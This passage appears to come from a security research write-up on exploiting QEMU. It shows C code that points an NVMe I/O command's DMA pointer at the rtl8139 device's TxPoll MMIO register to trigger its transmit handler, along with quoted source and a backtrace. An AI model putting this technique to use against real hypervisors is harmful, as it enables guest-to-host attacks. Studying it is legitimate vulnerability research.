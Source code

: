 Since SQ-0 and CQ-0 are the only channels used for handling admin commands, the queue with ID 0 will be ignored during the release process [3].

```c
static void nvme_free_sq(NvmeSQueue *sq, NvmeCtrl *n)
{
    // [...]
    if (sq->sqid) {
        g_free(sq); // [3]
    }
}

static void nvme_free_cq(NvmeCQueue *cq, NvmeCtrl *n)
{
    // [...]
    if (cq->cqid) {
        g_free(cq); // [3]
    }
}
```

Therefore, we need to trigger MMIO while executing non-admin commands. After some investigation, we find that the IO command `NVME_CMD_IO_MGMT_RECV` will call `nvme_io_mgmt_recv_ruhs()` internally. This function calls `nvme_c2h()`, which copies data to the guest's specified physical address.

```c
static uint16_t nvme_io_mgmt_recv_ruhs(/* ... */)
{
    // [...]
    return nvme_c2h(n, buf, trans_len, req);
}
```

If we set the command's descriptor pointer (`dptr.prp1`) to the `TxPoll` offset in the rtl8139 MMIO [4], we can indirectly call the rtl8139's transmit handler `rtl8139_cplus_transmit()`.

```c
memset(&cmd, 0, sizeof(cmd));
cmd.opcode = NVME_CMD_IO_MGMT_RECV;
cmd.nsid = 1;
cmd.cdw10 = NVME_IOMR_MO_RUH_STATUS;
cmd.cdw11 = 1;
cmd.dptr.prp1 = 0xfebf9000 + TxPoll; // [4]
run_nvme_cmd_q2(&cmd);
```

The backtrace leading to `rtl8139_cplus_transmit()` is as follows, with #3 ~ #14 being QEMU functions used for handling memory access:

```
#0  rtl8139_cplus_transmit
#1  rtl8139_io_writeb
#2  rtl8139_ioport_write

#3  memory_region_write_accessor
#4  access_with_adjusted_size
#5  memory_region_dispatch_write
#6  flatview_write_continue_step
#7  flatview_write_continue
#8  flatview_write
#9  address_space_write
#10 address_space_rw
#11 dma_memory_rw_relaxed
#12 dma_memory_rw
#13 dma_buf_rw
#14 dma_buf_read

#15 nvme_tx
```